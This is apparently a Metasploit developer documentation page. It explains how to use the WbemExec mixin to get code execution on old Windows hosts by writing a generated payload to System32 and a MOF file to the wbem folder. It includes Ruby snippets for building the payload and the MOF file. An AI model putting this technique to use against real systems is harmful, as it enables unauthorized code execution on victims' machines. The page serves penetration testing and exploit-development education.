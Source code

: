 Windows Management Instrumentation (WMI) is Microsoft's implementation of Web-Based Enterprise Management (WBEM), which uses Managed Object Format (MOF) to create Common Information Model (CIM) classes. The security community was actually unfamiliar with the evilness of this technology until the birth of Stuxnet, which used a MOF file to exploit a vulnerability allowing the attacker to create files via a fake Printer Spooler service. This technique was later reverse-engineered and demonstrated in Metasploit's [ms10_061_spoolss.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/smb/ms10_061_spoolss.rb) module, and that significantly changed how we approach write-privilege attacks. Generally speaking, if you find yourself being able to write to system32, you can most likely take advantage of this technique.

### Requirements

To to able to use the ```WBemExec``` mixin, you must meet these requirements:

* Write permission to C:\Windows\System32\
* Write permission to C:\Windows\System32\Wbem\
* The target must NOT be newer than Windows Vista (so mostly good for XP, Win 2003, or older). This is more of a limitation from the API, not the technique. Newer Windows operating systems need the MOF file to be pre-compiled first.

### Usage

First, include the ```WbemExec``` mixin under the scope of your ```Metasploit3``` class. You will also need the ```EXE``` mixin to generate an executable:

```ruby
include Msf::Exploit::EXE
include Msf::Exploit::WbemExec
```

Next, generate a payload name and the executable:

```ruby
payload_name = "evil.exe"
exe = generate_payload_exe
```

And then generate the mof file using the ```generate_mof``` method. The first argument should be the name of the mof file, and the second argument is the payload name:

```ruby
mof_name = "evil.mof"
mof = generate_mof(mof_name, payload_name)
```

Now you're ready to write/upload your files to the target machine. Always make sure you upload the payload executable first to ```C:\Windows\System32\```.

```ruby
upload_file_to_system32(payload_name, exe) # Write your own upload method
```

And then now you can upload the mof file to ```C:\Windows\System32\wbem\```:

```ruby
upload_mof(mof_name, mof) # Write your own upload method
```

Once the mof file is uploaded, the Windows Management Service should pick that up and execute it, which will end up executing your payload in system32. Also, the mof file will automatically be moved out of the mof directory after use.

### References

https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/exploit/wbemexec.rb

https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/smb/ms10_061_spoolss.rb